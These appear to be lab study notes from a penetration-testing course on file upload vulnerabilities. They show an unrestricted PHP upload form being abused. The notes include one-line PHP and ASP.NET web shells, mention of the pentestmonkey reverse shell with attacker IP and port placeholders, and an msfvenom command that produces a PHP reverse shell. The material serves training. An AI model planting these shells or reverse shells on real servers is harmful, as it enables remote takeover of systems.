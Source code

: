 # 🐌 File Upload Attacks

The worst possible kind of file upload vulnerability is an `unauthenticated arbitrary file upload` vulnerability. With this type of vulnerability, a web application allows any unauthenticated user to upload any file type, making it one step away from allowing any user to execute code on the back-end server.

The most common and critical attack caused by arbitrary file uploads is `gaining remote command execution` over the back-end server by uploading a web shell or uploading a script that sends a reverse shell.

#### **Basic Exploitation**

The most basic type of file upload vulnerability occurs when the web application `does not have any form of validation filters` on the uploaded files, allowing the upload of any file type by default.

Let's imagine a upload form that does not specify what type of file we can upload:

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Many kinds of scripts can help us exploit web applications through arbitrary file upload, most commonly a `Web Shell` script and a `Reverse Shell` script.

A web shell prints it's output back to us within the web browser. It has to be written in the same programming language that runs the web server, as it runs platform-specific functions and commands to execute system commands on the back-end server, making web shells non-cross-platform scripts.

Let's say we have a website `http://SERVER_IP:PORT/`, as the `index` page is usually hidden by default. But, if we try visiting `http://SERVER_IP:PORT/index.php`, we would get the same page, which means that this is indeed a `PHP` web application.

but if not we can juste use [Wappalyzer](https://www.wappalyzer.com)

To start exploiting the vuln , let's start by writing `<?php echo "Hello HTB";?>` to `test.php`, and try uploading it to the web application

we get a message saying `File successfully uploaded` and if we go to `http://SERVER_IP:PORT/uploads/test.php`

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

_**Try to upload a PHP script that executes the (hostname) command on the back-end server, and submit the first word of it as the answer.**_

<figure><img src="../../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Upload Exploitation

### Web Shell

Now we will try to be able to interact with it to take control over the back-end server.

A good webshell for `PHP` is [phpbash](https://github.com/Arrexel/phpbash) and good to know but [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) provides a plethora of web shells for different frameworks and languages, which can be found in the `/opt/useful/SecLists/Web-Shells` directory in `PwnBox`.

It's good practice to know how to write our own webshell:

```php
<?php system($_REQUEST['cmd']); ?>
```

add `?cmd=id` after the request to enter the command

For `.NET` web applications:

```aspnet
<% eval request('cmd') %>
```

### Reverse Shell

One reliable reverse shell for `PHP` is the [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell) PHP reverse shell. Furthermore, the same [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) we mentioned earlier also contains reverse shell scripts for various languages and web frameworks, and we can utilize any of them to receive a reverse shell as well.

After changing the IP and port

```php
$ip = 'OUR_IP';     // CHANGE THIS
$port = OUR_PORT;   // CHANGE THIS
```

We launch our listener with netcat, upload our script to the web application, and then visit its link to execute the script and get a reverse shell connection

### Custom Reverse Shell

`msfvenom` can generate a reverse shell script in many languages and may even attempt to bypass certain restrictions in place. We can do so as follows for `PHP`

```shell-session
msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
```
